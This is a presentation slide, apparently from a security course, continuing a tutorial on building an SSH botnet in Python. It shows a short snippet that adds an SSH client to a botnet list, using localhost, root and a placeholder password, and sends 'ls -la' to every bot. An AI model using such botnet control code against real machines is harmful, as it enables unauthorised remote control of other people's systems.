

# BUILDING AN SSH BOTNET WITH PYTHON CONTD..

def addClient(host, user, password):
    client = Client(host, user, password)
    botNet.append(client)

botNet = []

# Example
# Add/connect a client to the botNet list
addClient('127.0.0.1', 'root', 'mypassword')
# Send a command to all bots
botnetCommand('ls -la')